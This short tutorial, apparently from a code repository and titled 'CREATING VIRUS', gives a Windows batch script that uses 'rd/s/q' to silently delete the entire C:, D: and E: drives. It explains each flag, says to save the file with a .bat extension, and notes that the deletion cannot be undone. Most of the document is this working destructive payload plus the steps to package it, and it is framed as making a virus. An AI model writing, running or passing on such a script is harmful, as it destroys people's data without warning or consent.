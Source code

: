 ![image](https://user-images.githubusercontent.com/64470404/136706179-0f52df4b-a246-424b-a775-e705f29840bb.png)


# CREATING VIRUS 

### VIRUS THAT FORMATS DRIVES.

**STEPS**
- Open notepad and write the following bash scripts:

```
@echo off   
rd/s/q D:   
rd/s/q C:   
rd/s/q E: 
```


Here, <br>


> echo means, it is used to display amy message or string, just like priting the message in the screen. By defauly it is in 'on' mode, but when we turn off, using '@echo off', 
then it prevents every message and commands to view on the screen, including itself. 
<br>

> rd means, 'remove directory' , which means to remove the directory or the folder from the system.

<br>

> /s means, specified directories or subdirectories, and deletes the directories including the files which is inside it.

<br>

> /q means, quiet mode, and it doesn't prompt any notification or any confirmation when deleting any directory.
<br>

> C, D, E are the name of drives/folder/directories, which needs to be formatted completely.

<br>
- Save these command of notepad as anything.bat, name can be anything, but the saved extension should be '.bat'.
<br>
<br>
Now what happens is that, after running this command or opening this notepad in the system, mentioned drives or the folders, immediately within some seconds gets formatted 
and the inside content gets deleted.
<br>
<br>
This can't be prevented and reverted after opening the notepad or the file and so we need to be carefull and keep a backup of our system properly.


